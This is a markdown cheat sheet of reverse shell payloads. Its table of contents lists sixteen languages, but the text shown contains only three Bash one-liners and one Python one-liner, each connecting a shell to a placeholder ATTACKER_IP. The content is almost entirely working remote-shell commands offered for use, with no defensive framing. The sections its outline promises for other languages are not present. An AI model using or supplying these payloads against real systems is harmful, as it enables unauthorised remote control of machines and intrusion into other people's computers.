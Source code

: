 # Reverse Shell Payload Cheat Sheet

This document contains reverse shell payloads for various scripting languages, organized from basic to advanced techniques.

## Table of Contents
1. [Bash](#bash)
2. [Python](#python)
3. [Perl](#perl)
4. [PHP](#php)
5. [Ruby](#ruby)
6. [Netcat](#netcat)
7. [PowerShell](#powershell)
8. [Java](#java)
9. [Golang](#golang)
10. [Node.js](#nodejs)
11. [Awk](#awk)
12. [Telnet](#telnet)
13. [Socat](#socat)
14. [Windows CMD](#windows-cmd)
15. [Lua](#lua)
16. [Advanced Techniques](#advanced-techniques)

---

## Bash

### Basic
```bash
bash -i >& /dev/tcp/ATTACKER_IP/PORT 0>&1
```

### Without /dev/tcp
```bash
exec 5<>/dev/tcp/ATTACKER_IP/PORT; cat <&5 | while read line; do $line 2>&5 >&5; done
```

### Using UDP
```bash
sh -i >& /dev/udp/ATTACKER_IP/PORT 0>&1
```

---

## Python

### Basic
```python
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("ATTACKER_IP",PORT));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```
